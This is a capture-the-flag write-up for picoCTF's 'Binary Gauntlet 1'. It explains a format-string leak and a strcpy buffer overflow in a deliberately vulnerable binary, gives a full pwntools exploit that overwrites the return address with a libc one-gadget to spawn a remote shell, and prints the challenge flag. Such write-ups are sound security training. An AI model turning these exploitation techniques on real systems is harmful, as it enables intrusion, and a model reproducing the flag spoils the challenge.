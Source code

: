 # Binary Gauntlet 1

## Description

Author: madStacks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 53437

## Challenge

The binary is similar to the previous challenge, except that the flag is no longer read into memory, there is no segfault handler, and a stack address leak has been added.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### Decompiled code

```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_80h;
    int64_t var_74h;
    char *format;
    
    var_74h._0_4_ = (undefined4)argc;
    format = (char *)sym.imp.malloc(1000);
    sym.imp.printf(0x4007d4, (int64_t)&var_74h + 4);
    sym.imp.fflush(_reloc.stdout);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.printf(format);
    sym.imp.fflush(_reloc.stdout);
    sym.imp.fgets(format, 1000, _reloc.stdin);
    format[999] = '\0';
    sym.imp.strcpy((int64_t)&var_74h + 4, format, format);
    return 0;
}
```

## Intended Solution

Note that NX is disabled.
Therefore, if we can write shellcode onto the stack and jump to it, we can execute whatever we want.

The unsafe call to `strcpy` is still present, which we can use to load our shellcode.
We have to be careful to not include nullbytes, as it will stop copying our payload into the buffer.

At the end of the payload, we can overwrite the saved return address to point at our shellcode.
The address we want to overwrite it with is at the start of the buffer, which is leaked through a `printf` call at the start of the program.

## Catch-all Solution

Due to a format string vulnerability, it is possible to leak the address of libc.

As `main` will return into `__libc_start_main`, most of the address for all libc functions is already filled in, and we just have to overwrite the last couple bytes to jump anywhere we want in libc.

By jumping to a one gadget, as long as the correct parameters are set, we can spawn a shell without needing to use the executable stack or stack leak.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gauntlet")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("mercury.picoctf.net", 19968)


def main():
    r = conn()

    if args.LOCAL:
        context.terminal = ["tmux", "splitw", "-h"]
        #gdb.attach(r, 'b*0x00400727')

    r.sendline('%p ' * 23)

    r.recvline()
    leak = r.recvline().decode()
    print(leak)
    LibcRet = int(leak.split()[22], 0)

    print(LibcRet)

    LibcBase = LibcRet - 0x021bf7;
    OneGadget = LibcBase + 0x4f432;

    payload = flat({
        0x78: OneGadget,
    })

    print(payload)

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag

`7504344981b9288c5669150ada84894e`

